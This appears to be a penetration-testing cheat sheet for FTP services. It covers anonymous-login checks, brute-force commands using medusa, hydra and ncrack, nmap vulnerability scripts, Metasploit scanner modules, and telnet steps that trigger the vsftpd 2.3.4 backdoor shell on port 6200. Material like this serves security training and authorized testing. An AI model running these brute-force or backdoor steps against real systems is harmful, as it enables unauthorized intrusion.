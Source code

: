 # FTP

```text
telnet 192.168.99.131 21
telnet 192.168.99.131 6200telnet [ip] [ftp port]
ftp [ip] >>> check for anonymous login (anonymous:anonymous)
```

#### bruteforce with:

```text
medusa -u [user] -P [wordlist] -h [ip] -M ftp
hydra -l [user] -P [wordlist] [ip] ftp
ncrack -p 21 -U userlist -P passlist [ip]
```

### nmap scripts for FTP

```text
--script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor ,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum,ftp-default, ftp-user-enum

nmap -sV -Pn -vv -p 21 --script=ftp-anon,ftp-bounce ,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor ,ftp-vuln-cve2010-4221 [IP]
```

### vsftpd

21/tcp open ftp syn-ack ttl 64 vsftpd 2.3.4 This particular version contains a backdoor that was slipped into the source code by an unknown intruder. The backdoor was quickly identified and removed, but not before quite a few people downloaded it. If a username is sent that ends in the sequence :\) \[ a happy face \], the backdoored version will open a listening shell on port 6200.We can demonstrate this with telnet or use the Metasploit Framework module to automatically exploit it:

```text
telnet 192.168.99.131 21
telnet 192.168.99.131 6200
```

### ftp commands

Files sent in "binary" mode are sent from one system to another with no modification. The file size will always be unchanged on a binary transfer.

```text
ftp> binary >>> set transfer mode to binary (default is ascii)
ftp> help >> to see the list of commands
```

### metasploit modules

```text
use auxiliary/scanner/ftp/anonymous
use auxiliary/scanner/ftp/ftp_version
use auxiliary/scanner/ftp/ftp_login
```

### Common FTP banners

![](../../../.gitbook/assets/image%20%2836%29.png)















